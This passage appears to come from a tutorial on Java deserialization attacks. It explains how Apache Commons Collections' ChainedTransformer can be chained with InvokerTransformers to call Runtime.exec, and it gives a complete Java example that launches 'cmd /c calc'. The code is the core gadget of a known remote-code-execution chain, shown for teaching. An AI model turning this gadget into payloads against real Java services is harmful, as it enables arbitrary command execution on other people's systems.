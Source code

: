 *It should be noted that the use of `map`, is arbitrary, whatever object class could be used on its place.*

Another useful pattern (technically more a class than a pattern), which is crucial to understand how we can trigger remote code execution during deserialization, is the `ChainedTransformer` class.

A transformer, in JAVA, is a class which takes an object and returns a new object instance. A chained transformer, for instance, can chain multiple transformer togheter to transform an object multiple times, in sequence. To understand how this can be used to reach RCE, we can take the following example:

```java
import java.io.IOException;
import java.lang.reflect.InvocationTargetException;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class ExeCmdInvokerTransformer {
    
    public static void main(String args[]) {
        
        final String[] execArgs = new String[]{"cmd /c calc"};
        
        // Chain to transform object in -> ((Runtime)Runtime.class.getMethod("getRuntime").invoke(Object.class, null)).exec("cmd /c calc");
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                new Class[]{String.class, Class[].class},
                new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke",
                new Class[]{Object.class, Object[].class},
                new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec",
                new Class[]{String.class}, 
                execArgs
                 ),
            new ConstantTransformer(1)};
        
        Transformer transformerChain = new ChainedTransformer(transformers);
        
        // Testing the transformer
        Object object = new Object();
        transformerChain.transform(object);
    }
}
```

Above, the chain transformer takes an arbitrary object, ignores it, calls runtime `exec`, and executes an arbitrary command (in this case `cmd /c calc`).
